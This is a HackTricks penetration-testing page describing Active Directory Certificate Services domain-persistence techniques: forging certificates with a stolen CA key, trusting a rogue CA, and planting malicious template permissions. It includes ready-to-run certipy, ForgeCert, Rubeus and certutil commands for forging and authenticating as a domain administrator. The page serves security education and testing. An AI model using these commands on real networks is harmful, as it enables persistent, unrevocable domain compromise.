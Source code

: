 # AD CS Domain Persistence

<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Forging Certificates with Stolen CA Certificates - DPERSIST1

How can you tell that a certificate is a CA certificate?

* The CA certificate exists on the **CA server itself**, with its **private key protected by machine DPAPI** (unless the OS uses a TPM/HSM/other hardware for protection).
* The **Issuer** and **Subject** for the cert are both set to the **distinguished name of the CA**.
* CA certificates (and only CA certs) **have a “CA Version” extension**.
* There are **no EKUs**

The built-in GUI supported way to **extract this certificate private key** is with `certsrv.msc` on the CA server.\
However, this certificate **isn't different** from other certificates stored in the system, so for example check the [**THEFT2 technique**](certificate-theft.md#user-certificate-theft-via-dpapi-theft2) to see how to **extract** them.

You can also get the cert and private key using [**certipy**](https://github.com/ly4k/Certipy):

```bash
certipy ca 'corp.local/administrator@ca.corp.local' -hashes :123123.. -backup
```

Once you have the **CA cert** with the private key in `.pfx` format you can use [**ForgeCert**](https://github.com/GhostPack/ForgeCert)  to create valid certificates:

```bash
# Create new certificate with ForgeCert
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123! --Subject "CN=User" --SubjectAltName localadmin@theshire.local --NewCertPath localadmin.pfx --NewCertPassword Password123!

# Create new certificate with certipy
certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'

# Use new certificate with Rubeus to authenticate
Rubeus.exe asktgt /user:localdomain /certificate:C:\ForgeCert\localadmin.pfx /password:Password123!

# User new certi with certipy to authenticate
certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
```


**Note**: The target **user** specified when forging the certificate needs to be **active/enabled** in AD and **able to authenticate** since an authentication exchange will still occur as this user. Trying to forge a certificate for the krbtgt account, for example, will not work.


This forged certificate will be **valid** until the end date specified and as **long as the root CA certificate is valid** (usually from 5 to **10+ years**). It's also valid for **machines**, so combined with **S4U2Self**, an attacker can **maintain persistence on any domain machine** for as long as the CA certificate is valid.\
Moreover, the **certificates generated** with this method **cannot be revoked** as CA is not aware of them.

## Trusting Rogue CA Certificates - DPERSIST2

The object `NTAuthCertificates` defines one or more **CA certificates** in its `cacertificate` **attribute** and AD uses it: During authentication, the **domain controller** checks if **`NTAuthCertificates`** object **contains** an entry for the **CA specified** in the authenticating **certificate’s** Issuer field. If **it is, authentication proceeds**.

An attacker could generate a **self-signed CA certificate** and **add** it to the **`NTAuthCertificates`** object. Attackers can do this if they have **control** over the **`NTAuthCertificates`** AD object (in default configurations only **Enterprise Admin** group members and members of the **Domain Admins** or **Administrators** in the **forest root’s domain** have these permissions). With the elevated access, one can **edit** the **`NTAuthCertificates`** object from any system with `certutil.exe -dspublish -f C:\Temp\CERT.crt NTAuthCA126` , or using the [**PKI Health Tool**](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/import-third-party-ca-to-enterprise-ntauth-store#method-1---import-a-certificate-by-using-the-pki-health-tool).&#x20;

The specified certificate should **work with the previously detailed forgery method with ForgeCert** to generate certificates on demand.

## Malicious Misconfiguration - DPERSIST3

There is a myriad of opportunities for **persistence** via **security descriptor modifications of AD CS** components. Any scenario described in the “[Domain Escalation](domain-escalation.md)” section could be maliciously implemented by an attacker with elevated access, as well as addition of “control rights'' (i.e., WriteOwner/WriteDACL/etc.) to sensitive components. This includes:

* **CA server’s AD computer** object
* The **CA server’s RPC/DCOM server**
* Any **descendant AD object or container** in the container **`CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>`** (e.g., the Certificate Templates container, Certification Authorities container, the NTAuthCertificates object, etc.)
* **AD groups delegated rights to control AD CS by default or by the current organization** (e.g., the built-in Cert Publishers group and any of its members)

For example, an attacker with **elevated permissions** in the domain could add the **`WriteOwner`** permission to the default **`User`** certificate template, where the attacker is the principal for the right. To abuse this at a later point, the attacker would first modify the ownership of the **`User`** template to themselves, and then would **set** **`mspki-certificate-name-flag`** to **1** on the template to enable **`ENROLLEE_SUPPLIES_SUBJECT`** (i.e., allowing a user to supply a Subject Alternative Name in the request). The attacker could then **enroll** in the **template**, specifying a **domain administrator** name as an alternative name, and use the resulting certificate for authentication as the DA.

## References

* All the information of this page was taken from [https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf)

<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
